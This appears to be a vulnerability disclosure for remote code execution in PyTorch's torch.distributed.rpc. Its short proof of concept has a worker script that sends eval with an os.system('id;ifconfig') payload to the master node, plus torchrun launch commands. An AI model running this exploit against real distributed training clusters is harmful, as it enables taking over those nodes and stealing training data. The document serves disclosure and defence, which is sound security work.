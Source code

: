 On the master (1X.2XX.0.3) , we can enable the RPC service by calling the `init_rpc` function. At this time, the master will listen to 0.0.0.0:MSTER_PORT, which is used to communicate with each node in the network.

```python
import torch
import torch.distributed.rpc as rpc

def add(a, b):
    return a + b

rpc.init_rpc("master", rank=0, world_size=2)
rpc.shutdown()
```

On the worker, First, establish the rpc protocol with the master by calling init_rpc. Then, we can communicate with the master through `rpc.rpc_sync` for RPC function invocations. Due to the lack of security filtering in torch.distributed.rpc, workers can execute built-in Python functions like eval on the master node through RPC, even though these functions are not intentionally provided by the developer. This leads to remote code execution on the master node, potentially causing it to be compromised.

```PYTHON
import torch
import torch.distributed.rpc as rpc

rpc.init_rpc("worker", rank=1, world_size=2)
ret = rpc.rpc_sync("master", eval, args=('__import__("os").system("id;ifconfig")',))
print(ret)
rpc.shutdown()

```

We can use the following commands to start the master and worker separately. Of course, we can also execute python3 master.py and python3 worker.py separately.

```shell
for master:
torchrun --nproc_per_node=1 --nnodes=2 --node_rank=0 --master_addr=10.206.0.3 --master_port=29500 master.py

for worker:
torchrun --nproc_per_node=1 --nnodes=2 --node_rank=1 --master_addr=10.206.0.3 --master_port=29500 worker.py

```

As a result, the worker exploited the vulnerability to call built-in Python functions like eval on the master and execute arbitrary commands such as os.system("id;ifconfig"). According to the test screenshot, the IP displayed after the command execution is 10.206.0.3, indicating that the command has been executed on the master.

Impact:An attacker can exploit this vulnerability to remotely attack master nodes that are starting distributed training. Through RCE, the master node is compromised, so as to further steal the sensitive data related to AI.
